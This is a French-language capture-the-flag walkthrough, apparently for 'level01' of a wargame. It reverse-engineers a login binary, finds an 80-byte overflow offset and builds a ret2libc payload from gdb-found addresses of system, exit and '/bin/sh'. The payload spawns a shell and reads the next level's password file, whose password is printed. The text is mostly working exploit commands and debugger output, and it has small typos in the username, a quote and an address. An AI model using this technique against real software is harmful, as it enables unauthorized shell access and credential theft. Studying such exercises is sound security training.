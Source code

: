 ## Level01

Lorsqu’on lance le programme, celui-ci nous demande un login.

On ouvre le programme sur cutter, on trouve que  verify_user_name(); est appelée.

On cherche donc dans cette fonction et on trouve une string : “dat_wil”. On essaie alors d’entrer cette string en tant qu’username et cela nous permet d’accéder au champ password.

On voit dans cutter une string “admin” qui est comparée. On essaie alors d’entrer “admin” en password, mais ça ne fonctionne pas.

Essayons de buffer overflow le fgets du password :

    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()

0x37634136 nous donne un offset de 80.

Le problème c’est qu’on ne voit pas de /bin/sh dans le programme. On va donc essayer de la trouver avec une ret2libc attack.

    (gdb) b *main+173
    Breakpoint 1 at 0x804857d
    
    (gdb) info proc map
    process 1857
    Mapped address spaces:
    Start Addr End Addr Size Offset objfile
    0x8048000 0x8049000 0x1000 0x0 /home/users/level01/level01
    0x8049000 0x804a000 0x1000 0x0 /home/users/level01/level01
    0x804a000 0x804b000 0x1000 0x1000 /home/users/level01/level01
    0xf7e2b000 0xf7e2c000 0x1000 0x0
    0xf7e2c000 0xf7fcc000 0x1a0000 0x0 /lib32/libc-2.15.so
    0xf7fcc000 0xf7fcd000 0x1000 0x1a0000 /lib32/libc-2.15.so
    0xf7fcd000 0xf7fcf000 0x2000 0x1a0000 /lib32/libc-2.15.so
    0xf7fcf000 0xf7fd0000 0x1000 0x1a2000 /lib32/libc-2.15.so
    0xf7fd0000 0xf7fd4000 0x4000 0x0
    0xf7fd8000 0xf7fdb000 0x3000 0x0
    0xf7fdb000 0xf7fdc000 0x1000 0x0 [vdso]
    0xf7fdc000 0xf7ffc000  0x20000 0x0 /lib32/ld-2.15.so
    0xf7ffc000 0xf7ffd000 0x1000  0x1f000 /lib32/ld-2.15.so
    0xf7ffd000 0xf7ffe000 0x1000  0x20000 /lib32/ld-2.15.so
    0xfffdd000 0xffffe000  0x21000 0x0 [stack]

    (gdb) find 0xf7e2b000, 0xf7fcc000,"bin/sh"
    (gdb) 0xf7f897ec
		1 pattern found.

Ici nous cherchons /bin/sh entre les adresses  **0xf7e2b000** et **0xf7ffdd00** grâce à gdb on trouve que /bin/sh ce trouve à l'adresse : **0xf7f897ec**


    (gdb) info function system
    All functions matching regular expression "system":
   
    Non-debugging symbols:
    0xf7e6aed0  __libc_system
    0xf7e6aed0  system
    0xf7f48a50  svcerr_systemerr

On prend donc l'adresse de libc_system : **0xf7e6aed0**

    (gdb) info function exit
    All functions matching regular expression "exit":
    
    Non-debugging symbols:
    0xf7e5eb70  exit
    0xf7e5eba0  on_exit
    0xf7e5edb0  __cxa_atexit
    0xf7e5ef50  quick_exit
    0xf7e5ef80  __cxa_at_quick_exit
    0xf7ee45c4  _exit
    0xf7f27ec0  pthread_exit
    0xf7f2d4f0  __cyg_profile_func_exit
    0xf7f4bc30  svc_exit
    0xf7f55d80  atexit
Ici nous prenons l'adresse de l'exit : **0xf7e5eb70**

A partir de là nous pouvons créer notre payload :

*Overflow + System + Exit + /bin/sh*

Ce qui nous donne : 

    $ python -c "print 'A' * 80 + '\xd0\xae\xe6\xf7 + '\x70\xeb\xe5\xf7' + '\xed\x97\xf8\xf7'" > /tmp/payload

On ajoute alors la première commande pour accéder au password ce qui nous donne : 

    $ python -c "print 'dat_will' + '\n' + 'A' * 80 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7' " > /tmp/payload

    cat /tmp/payload - | ./level01
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: verifying username....
    
    Enter Password:
    nope, incorrect password...

    $ whoami
    level02
    $ cat /home/users/level02/.pass
    PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
